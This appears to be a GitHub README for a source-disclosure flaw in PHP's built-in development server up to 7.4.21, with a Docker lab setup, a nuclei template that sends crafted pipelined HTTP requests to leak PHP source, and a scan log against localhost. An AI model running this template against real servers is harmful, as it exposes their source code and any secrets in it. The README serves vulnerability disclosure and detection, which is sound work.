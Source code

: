 # [PHP Development Server <= 7.4.21 - Remote Source Disclosure](https://blog.projectdiscovery.io/php-http-server-source-disclosure/)

## demo

```shell
docker build . -t phptest
docker run -p 8888:8888 phptest
```

![poc.png](./img/poc.png)

## nuclei template

```yaml
id: php-src-diclosure

info:
  name: PHP <= 7.4.21 - Built-in Server Remote Source Disclosure
  author: pdteam
  severity: medium
  metadata:
    verified: true
    shodan-query: The requested resource <code class="url">
  tags: php,phpcli,disclosure

requests:
  - raw:
      - |+
        GET /  HTTP/1.1
        Host: {{Hostname}}
        
        GET /{{rand_base(3)}}.{{rand_base(2)}} HTTP/1.1
   
     

        
        
      - |+
        GET /  HTTP/1.1
        Host: {{Hostname}}

    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body_1, "<?php")' 
          - '!contains(body_2, "<?php")'
        condition: and
```

```bash
┌──(realkali㉿kali)-[~/Documents]
└─$ nuclei -u localhost:8888 -t ./test.yaml

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v2.8.8

                projectdiscovery.io

[INF] Using Nuclei Engine 2.8.8 (latest)
[INF] Using Nuclei Templates 9.3.6 (latest)
[INF] Templates added in last update: 30
[INF] Templates loaded for scan: 1
[INF] Targets loaded for scan: 1
[INF] Running httpx on input host
[INF] Found 1 URL from httpx
[php-src-diclosure] [http] [medium] http://localhost:8888
```

## References

<https://blog.projectdiscovery.io/php-http-server-source-disclosure/>

